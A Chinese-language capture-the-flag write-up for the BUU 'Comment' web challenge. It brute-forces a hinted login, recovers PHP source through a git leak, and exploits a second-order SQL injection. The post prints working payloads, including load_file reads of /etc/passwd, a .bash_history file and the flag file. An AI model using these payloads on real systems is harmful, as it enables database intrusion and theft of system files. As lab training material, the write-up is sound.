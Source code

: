```yaml
---
title: Comment
date: 2021-04-06 16:55:26
tags: wp

---
```

## '__'
留言那里存在XSS，BUU的XSS平台没法注册，就没试'()'
       
二次注入      

![06.png](https://img11.360buyimg.com/ddimg/jfs/t1/174863/29/3351/8503/6072da0aEe2e9591e/202fcd59c2670f49.png)
提示了账号和密码，一般后面是三位数字，爆破是666       
![](https://ftp.bmp.ovh/imgs/2021/04/04a05effe6890640.png)      
`write_do.php`    
看WP是git泄露        
Githack一下下载下来`write_do.php`  ，但是是残缺的，git log历史commit里也没`add write_do.php`??      





	```php
	<?php
	include "mysql.php";
	session_start();
	if($_SESSION['login'] != 'yes'){
	    header("Location: ./login.php");
	    die();
	}
	if(isset($_GET['do'])){
	switch ($_GET['do'])
	{
	case 'write':     ##发帖
	    $category = addslashes($_POST['category']);
	    $title = addslashes($_POST['title']);
	    $content = addslashes($_POST['content']);
	    $sql = "insert into board
	            set category = '$category',
	                title = '$title',
	                content = '$content'";
	    $result = mysql_query($sql);
	    header("Location: ./index.php");
	    break;
	case 'comment':   ##留言
	    $bo_id = addslashes($_POST['bo_id']);
	    $sql = "select category from board where id='$bo_id'";
	    $result = mysql_query($sql);
	    $num = mysql_num_rows($result);
	    if($num>0){
	    $category = mysql_fetch_array($result)['category'];
	    $content = addslashes($_POST['content']);
	    $sql = "insert into comment
	            set category = '$category',
	                content = '$content',
	                bo_id = '$bo_id'";
	    $result = mysql_query($sql);
	    }
	    header("Location: ./comment.php?id=$bo_id");
	    break;
	default:
	    header("Location: ./index.php");
	}
	}
	else{
	    header("Location: ./index.php");
	}
	?>
	```




虽然有addslashes函数，但是，数据库查询时会自动过滤调斜线的     
![](https://ftp.bmp.ovh/imgs/2021/04/4d8c1aa58308f665.png)     
      
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";      


`category=',content=database(),/*     `   
留言输入`content=*/#`         
就成了      

    $sql = "insert into comment
            set category = '',content=database(),/*',
                content = '*/#',
                bo_id = '$bo_id'";      


就可以查询库了 ----`ctf`       
然后查表啥的，但查不出来       

`load_file`        

`	',content=load_file('/etc/passwd'),/*`     
![](https://ftp.bmp.ovh/imgs/2021/04/f60314c154735390.png)       

`',content=load_file('/home/www/.bash_history'),/*`      
![](https://ftp.bmp.ovh/imgs/2021/04/4ec8c167bc9d6949.png)    

虽然被删了，但`/tmp/html`中还有        
`',content=load_file('/tmp/html/.DS_Store'),/*`会乱码，加hex`',content=hex(load_file('/tmp/html/.DS_Store')),/*`   
![](https://ftp.bmp.ovh/imgs/2021/04/430404dd20585acc.png) 

`',content=hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php')),/*`      
解码得到flag     
